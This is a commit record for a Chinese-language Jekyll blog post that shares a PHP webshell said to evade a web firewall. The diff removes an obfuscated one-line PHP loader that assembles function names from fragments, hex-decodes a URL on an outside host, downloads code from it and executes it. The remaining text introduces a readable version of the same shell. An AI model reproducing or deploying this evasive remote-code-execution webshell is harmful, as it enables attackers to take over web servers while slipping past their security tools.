

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-27-php-horse.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2015-04-27-php-horse.md

```diff
--- a/_posts/2015-04-27-php-horse.md
+++ b/_posts/2015-04-27-php-horse.md
@@ -11,14 +11,7 @@ tags:
 
   研究了一下过狗原理，自己写了个一句话。
 
-过狗php大马一枚，源码如下：
-{% raw %}
-<pre>
-<?php define('iphp','oday');define('T','H*');define('A','call');define('B','user');define('C','func');define('D','create');define('E','function');define('F','file');define('F1','get');define('F2','contents');define('P','pack');$p = P;$call = sprintf('%s_%s_%s',A,B,C);$create = sprintf('%s_%s',D,E);$file = sprintf('%s_%s_%s',F,F1,F2);$t = array('6','8','7','4','7','4','7','0','3','a','2','f','2','f','6','4','6','f','6','4','6','f','6','4','6','f','6','d','6','5','2','e','7','3','6','9','6','e','6','1','6','1','7','0','7','0','2','e','6','3','6','f','6','d','2','f','6','7','6','5','7','4','6','3','6','f','6','4','6','5','2','e','7','0','6','8','7','0','3','f','6','3','6','1','6','c','6','c','3','d','6','3','6','f','6','4','6','5');$call($create(null,$p(T,$file($p(T,join(null,$t))))));?>
-</pre>
-{% endraw %}
-
-有人翻译如下，省了我不少事。
+过狗php大马一枚,有人翻译如下，省了我不少事。
 {% highlight php %}
 <?php
 define('iphp','oday');
```
